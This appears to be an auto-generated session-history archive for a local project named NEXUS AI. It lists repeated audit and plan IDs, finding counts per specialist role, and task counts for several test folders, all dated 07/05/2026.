- **Audit ID**: AUDIT-1778144623889-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144624312 | **Audit Ref**: AUDIT-1778144623889 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144910186 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 7
- **Audit ID**: AUDIT-1778144910186-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144910186-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144910186-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144910186-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144910186-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144910186-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144910560 | **Audit Ref**: AUDIT-1778144910186 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144955041 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 7
- **Audit ID**: AUDIT-1778144955041-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144955041-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144955041-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144955041-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144955041-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778144955041-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144955561 | **Audit Ref**: AUDIT-1778144955041 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145157374 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 7
- **Audit ID**: AUDIT-1778145157374-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145157374-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145157374-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145157374-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145157374-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145157374-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145157819 | **Audit Ref**: AUDIT-1778145157374 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145273858 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 7
- **Audit ID**: AUDIT-1778145273858-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145273858-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145273858-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145273858-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145273858-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145273858-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145274236 | **Audit Ref**: AUDIT-1778145273858 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145333897 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 7
- **Audit ID**: AUDIT-1778145333897-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145333897-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145333897-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145333897-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145333897-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1
- **Audit ID**: AUDIT-1778145333897-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\adaptive_strategy_agent | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145334312 | **Audit Ref**: AUDIT-1778145333897 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, adaptive_strategy_agent]

### 📘 KNOWLEDGE: NEXUS_AGENT_COLLABORATION_STRESS_TEST_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144639730 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 9
- **Audit ID**: AUDIT-1778144639730-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144639730-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144639730-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144639730-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144639730-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144639730-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144640135 | **Audit Ref**: AUDIT-1778144639730 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144919868 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 7
- **Audit ID**: AUDIT-1778144919868-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144919868-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144919868-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144919868-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144919868-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144919868-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144920256 | **Audit Ref**: AUDIT-1778144919868 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144964796 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 7
- **Audit ID**: AUDIT-1778144964796-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144964796-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144964796-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144964796-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144964796-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144964796-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144965183 | **Audit Ref**: AUDIT-1778144964796 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145167056 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145167056-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145167056-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145167056-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145167056-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145167056-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145167056-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145167507 | **Audit Ref**: AUDIT-1778145167056 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145283899 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145283899-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145283899-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145283899-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145283899-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145283899-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145283899-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145284356 | **Audit Ref**: AUDIT-1778145283899 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145344245 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145344245-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145344245-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145344245-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145344245-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145344245-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145344245-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\agent_collaboration_stress_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145344644 | **Audit Ref**: AUDIT-1778145344245 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, agent_collaboration_stress_test]

### 📘 KNOWLEDGE: NEXUS_ALPINE_BEHAVIOR_SIMULATOR_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144583911 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 9
- **Audit ID**: AUDIT-1778144583911-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144583911-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144583911-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144583911-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144583911-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144583911-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144584327 | **Audit Ref**: AUDIT-1778144583911 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144891405 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 7
- **Audit ID**: AUDIT-1778144891405-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144891405-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144891405-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144891405-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144891405-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144891405-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144891882 | **Audit Ref**: AUDIT-1778144891405 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144934821 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 7
- **Audit ID**: AUDIT-1778144934821-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144934821-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144934821-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144934821-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144934821-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778144934821-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144935384 | **Audit Ref**: AUDIT-1778144934821 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145137712 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 7
- **Audit ID**: AUDIT-1778145137712-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145137712-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145137712-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145137712-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145137712-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145137712-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145138113 | **Audit Ref**: AUDIT-1778145137712 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145254326 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 7
- **Audit ID**: AUDIT-1778145254326-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145254326-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145254326-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145254326-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145254326-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145254326-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145254714 | **Audit Ref**: AUDIT-1778145254326 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145313706 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 7
- **Audit ID**: AUDIT-1778145313706-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145313706-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145313706-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145313706-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145313706-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1
- **Audit ID**: AUDIT-1778145313706-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\alpine_behavior_simulator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145314125 | **Audit Ref**: AUDIT-1778145313706 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, alpine_behavior_simulator]

### 📘 KNOWLEDGE: NEXUS_ANTI-PROMPT-REPLAY_VALIDATION_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144628822 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 9
- **Audit ID**: AUDIT-1778144628822-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144628822-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144628822-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144628822-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144628822-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144628822-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144629314 | **Audit Ref**: AUDIT-1778144628822 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144913427 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 7
- **Audit ID**: AUDIT-1778144913427-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144913427-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144913427-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144913427-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144913427-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144913427-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144913805 | **Audit Ref**: AUDIT-1778144913427 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144958390 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 7
- **Audit ID**: AUDIT-1778144958390-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144958390-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144958390-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144958390-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144958390-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778144958390-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144958841 | **Audit Ref**: AUDIT-1778144958390 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145160535 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 7
- **Audit ID**: AUDIT-1778145160535-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145160535-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
